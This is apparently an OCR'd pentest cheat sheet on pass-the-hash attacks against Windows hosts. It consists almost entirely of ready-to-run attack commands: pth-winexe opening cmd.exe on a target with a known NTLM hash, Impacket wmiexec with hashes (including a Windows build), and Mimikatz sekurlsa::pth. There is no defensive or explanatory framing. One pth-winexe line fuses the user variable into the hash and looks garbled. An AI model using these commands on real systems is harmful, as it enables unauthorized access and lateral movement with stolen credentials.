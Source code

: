 ```
```pth-winexe```  

```pth-wmic```  

```pth-wmis```

##### pth-winexe #####

```pth-winexe -U $domain\$useraad3b435b51404eeaad3b435b51404ee:$knownHash //$target cmd.exe```

##### Impacket #####

NOTE: ```All the Impacket examples support hashes. If you don't want to include the blank LM portion, just prepend a leading colon:```

```python wmiexec.py -hashes :$knowHash $user@$target```

#### Using Hashes with Windows ####

https://github.com/maaaaz/impacket-examples-windows

Compiled for Windows:

```.\wmiexec.exe -hashes :$knowHash $user@$target```

#### PTH with Mimikatz ####

###### 1. Start mimikatz prompt ######

```sekurlsa::pth /user:$user /domain:$domain /ntlm:$ntlmHash```

